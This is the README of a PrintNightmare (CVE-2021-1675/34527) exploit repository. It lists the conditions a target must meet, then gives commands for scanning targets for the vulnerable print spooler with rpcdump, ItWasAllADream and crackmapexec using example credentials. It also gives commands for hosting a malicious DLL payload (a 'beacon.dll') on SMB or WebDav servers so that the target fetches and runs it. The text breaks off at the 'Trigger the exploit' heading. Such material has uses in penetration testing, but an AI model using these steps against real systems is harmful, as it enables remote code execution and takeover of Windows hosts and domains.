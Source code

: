 # Print Nightmare CVE-2021-1675 / CVE-2021-34527

### The DLL will be stored in C:\Windows\System32\spool\drivers\x64\3\ . The exploit will execute the DLL either from the local filesystem or a remote share.

## Requirements:

 - Spooler Service enabled (MANDATORY)

 - Server with patches < June 2021

 - DC with Pre Windows 2000 Compatiblity group

 - Server with registry key HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall = (DWORD) 1

 - Server with registry key HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA = (DWORD) 0

## Detect the vulnerability:

#### 1) Impacket rpcdump

 - python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'

#### 2) It Was All A Dream (Github repo: https://github.com/byt3bl33d3r/ItWasAllADream)

 - git clone https://github.com/byt3bl33d3r/ItWasAllADream

 - cd ItWasAllADream && poetry install && poetry shell

 - itwasalladream -u user -p Password123 -d domain 10.10.10.10/24

### OR

 - docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10

## Payload Hosting:

#### 1) The payload can be hosted on Impacket SMB Server since PR #1109:

 - python3 ./smbserver.py share /tmp/smb/

#### 2) Using Invoke-BuildAnonymousSMBServer (Admin rights required on host):

 - Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer

#### 3) Using WebDav with SharpWebServer (Doesn't require admin rights):

 - SharpWebServer.exe port=8888 dir=c:\users\public verbose=true

### When using WebDav instead of SMB, you must add @[PORT] to the hostname in the URI, e.g.: \\172.16.1.5@8888\Downloads\beacon.dll WebDav client must be activated on exploited target. By default it is not activated on Windows workstations (you have to net start webclient ) and it's not installed on servers. Here is how to detect activated webdav:

 - cme smb -u user -p password -d domain.local -M webdav [TARGET]

## Trigger the exploit

#### 1) SharpNightmare
